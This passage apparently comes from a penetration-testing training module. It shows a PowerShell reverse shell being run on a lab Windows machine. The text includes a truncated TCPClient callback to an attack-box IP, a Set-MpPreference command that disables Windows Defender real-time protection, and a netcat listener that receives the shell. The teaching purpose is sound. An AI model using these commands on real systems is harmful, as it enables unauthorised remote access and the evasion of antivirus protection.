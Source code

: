 Note: If we are using Pwnbox, keep in mind that some browsers do not work as seamlessly when using the Clipboard feature to paste a command directly into the CLI of a target. In these cases, we may want to paste into Notepad on the target, then copy & paste from inside the target.

Please take a close look at the command and consider what we need to change for this to allow us to establish a reverse shell with our attack box. This PowerShell code can also be called `shell code` or our `payload`. Delivering this payload onto the Windows system was pretty straightforward, considering we have complete control of the target for demonstration purposes. As this module progresses, we will notice the difficulty increases in how we deliver the payload onto targets.

`What happened when we hit enter in command prompt?`

#### Client (target)

```cmd-session
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

```

The `Windows Defender antivirus` ( `AV`) software stopped the execution of the code. This is working exactly as intended, and from a `defensive` perspective, this is a `win`. From an offensive standpoint, there are some obstacles to overcome if AV is enabled on a system we are trying to connect with. For our purposes, we will want to disable the antivirus through the `Virus & threat protection settings` or by using this command in an administrative PowerShell console (right-click, run as admin):

#### Disable AV

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true

```

Once AV is disabled, attempt to execute the code again.

#### Server (attack box)

```shell
sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student

```

Back on our attack box, we should notice that we successfully established a reverse shell. We can see this by the change in the prompt that starts with `PS` and our ability to interact with the OS and file system. Try running some standard Windows commands to practice a bit.
